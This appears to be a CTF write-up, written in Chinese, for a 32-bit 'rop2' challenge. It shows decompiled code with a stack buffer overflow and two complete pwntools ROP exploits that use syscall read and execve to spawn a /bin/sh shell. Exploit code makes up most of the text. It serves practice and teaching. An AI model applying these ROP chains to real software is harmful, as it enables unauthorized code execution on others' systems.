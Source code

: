 NX 有開 。

main
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4[42]; // [esp+5h] [ebp-33h]

  alarm(0x1Eu);
  strcpy(v4, "Can you solve this?\nGive me your ropchain:");
  syscall(4, 1, v4, 42);
  overflow();
  return 0;
}
```

overflow
```c
int overflow()
{
  char v1; // [esp+Ch] [ebp-Ch]

  syscall(3, 0, &v1, 1024);
  return syscall(4, 1, &v1, 1024);
}
```

overflow 可以算出 offset 16 可以蓋到 ret ， 於是打算讓他跳回 syscall 執行 sys_execve('/bin/sh')
但 ROPgedget 找不出 '/bin/sh' 於是打算自己構造

想法:
第一次進去 overflow 把 ret 蓋掉，換成 syscall(3, 0, buf, 7) --> sys_read(0, buf, 7) ([參考 syscall table](https://syscalls.kernelgrok.com/))

```python
#payload = padding + ret + syscall + arg1 + arg2 + arg3 + arg4
payload = offset + syscall + ret_addr + sys_read
p.sendline(payload)
p.send('/bin/sh')
```

ret 位置給 overflow 讓他可以達成第二次輸入 (原本嘗試直接再跳一次syscall，但失敗了。好像因為 calling convention 的問題，疑問中)
第二次則從 buf 拿自己輸入的 /bin/sh 出來用
```python
payload = offset + syscall + p32(0xdeadbeaf) + sys_execve
```

exp.py
```python
from pwn import *
offset = 'A' * 16
elf = ELF('./rop2')
p = process('./rop2')
syscall = p32(elf.plt['syscall'])
ret_addr = p32(elf.symbols['overflow'])
sys_read = p32(0x3) + p32(0x0) + p32(elf.symbols['some_buffer']) + p32(0x7) # syscall(3, fd, buf, count)
sys_execve = p32(0x0b) + p32(elf.symbols['some_buffer']) + p32(0x0) + p32(0x0)
#paylaod = padding + func + ret + args
payload = offset + syscall + ret_addr + sys_read
p.sendline(payload)
p.send('/bin/sh')
payload = offset + syscall + p32(0xdeadbeaf) + sys_execve
p.sendline(payload)
p.interactive()
```

以下提供一個ROP利用方法 丟參數順序 ebp edi esi ebx

exp.py
```python
from pwn import *
offset = 'A' * 16
elf = ELF('./rop2')
p = process('./rop2')
syscall = p32(elf.plt['syscall'])
sys_read = p32(0x3) + p32(0x0) + p32(elf.symbols['some_buffer']) + p32(0x7) # syscall(3, fd, buf, count)
sys_execve = p32(0x0b) + p32(elf.symbols['some_buffer']) + p32(0x0) + p32(0x0)

#paylaod = padding + func + ret + args
payload = offset + syscall + p32(0x08048578) + sys_read
payload += syscall +  p32(0xdeadbeaf) + sys_execve
p.sendlineafter("your ropchain:", payload)
p.sendline("/bin/sh\x00")
p.interactive()
```
